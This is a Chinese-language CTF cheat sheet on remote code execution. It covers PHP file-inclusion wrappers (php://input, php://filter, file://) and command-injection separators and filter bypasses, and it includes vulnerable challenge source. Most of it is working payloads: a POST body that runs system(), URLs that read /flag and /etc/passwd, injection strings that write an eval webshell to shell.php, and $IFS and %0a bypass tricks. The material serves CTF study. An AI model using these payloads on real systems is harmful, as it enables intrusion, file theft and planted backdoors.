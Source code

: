 # RCE

## 文件包含

### php://input

* 需要allow_url_fopen=On   allow_url_include=On

* 在enctype=”multipart/form-data” 的时候 php://input 是无效的。

* 处理POST内容

题目源码：

``` php+HTML
<?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
<a href="phpinfo.php">phpinfo</a>
```

payload：

``` http
POST /?file=php://input HTTP/1.1
......
......
Content-Length: 32

<?php system('cat /flag_415');?>
```

### php://filter

* resource = <要过滤的数据流>	   这个参数是必须的。它指定了你要筛选过滤的数据流。
* read = <读链的筛选列表>	       该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
* write = <写链的筛选列表>	   该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
* <两个链的筛选列表>	       任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。

题目源码：

```php+HTML
<?php
error_reporting(E_ALL);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
flag in <code>/flag</code>
```

payload:

```
http://URL/?file=php://filter/read=convert.base64-encode/resource=../../../flag
http://URL/?file=php://filter/read=convert.base64-encode/resource=/flag
http://URL/?file=php://filter/read=/resource=/flag
```

### file://

payload:

``` 
?xxx=file:///etc/passwd
```

## 命令注入

### 分隔符

* windows（存疑）

  ```
  “|”：直接执行后面的语句。
  “||”：如果前面的语句执行失败，则执行后面的语句，前面的语句只能为假才行。
  “&”：两条命令都执行，如果前面的语句为假则直接执行后面的语句，前面的语句可真可假。
  “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真。
  ```

* linux

  ```
  “|”：管道符
  “&”：后台执行，需要空格加&。
  “;”：命令按顺序执行。前后无影响。
  **********下面两个具有短路效应，和C语言差不多。********
  “&&”：前面如果是false则短路
  “||”：前面是true则短路
  ```

### 直接注入

payload：

``` 
1 | ls /
1 | cat /flag
```

ls有回显，但无法显示flag：

* 有可能被注释，按F12
* 有可能因为编码原因无法显示，所以可以给base64

```
1 | cat /flag | base64
```

### echo写入

payload:

``` 
127.0.0.1&echo -e "<?php @eval(\$_POST['shell']);?>" > shell.php 
127.0.0.1&echo "<?php @eval(\$_POST['shell']);?>" > shell.php 
127.0.0.1&echo "<?php @eval($_POST['shell']);?>" > shell.php 
```

### 过滤

#### 过滤cat命令 or flag等关键词

* 反斜杠：`ca\t fl\ag.php`
* 连接符：`ca''t fla''g.txt`
* `\(` `$` `*`
* 使用TAB(`%09`）补全(可能有问题)：`ca%09`


#### 过滤空格

在 bash 下，可以用以下字符代替空格

```
<, <>, %20(space), %09(tab), $IFS$9, ${IFS}, $IFS, \$IFS\$9, \${IFS}
```

#### 过滤目录分隔符 "/"

linux中：`;` 、`&` 、`|` 、`&&`、`||`

`;`的作用就是在 shell 中，担任”连续指令”功能

payload:  

```
1 & cd flag_is_here;ls
1 & cd flag_is_here;cat flag

;cd flag_is_here&&ls
;cd flag_is_here&&cat flag
```

#### 过滤运算符 “|” “&”

用`;`代替

```
127.0.0.1 | ls --> 127.0.0.1 ; ls
```

用`%0a` `%0d` `%0D%0A`绕过

```
127.0.0.1 | ls --> 127.0.0.1 %0a ls
```



#### URL表

![url1](_RCE_image/url1.png)

![url2](_RCE_image/url2.png)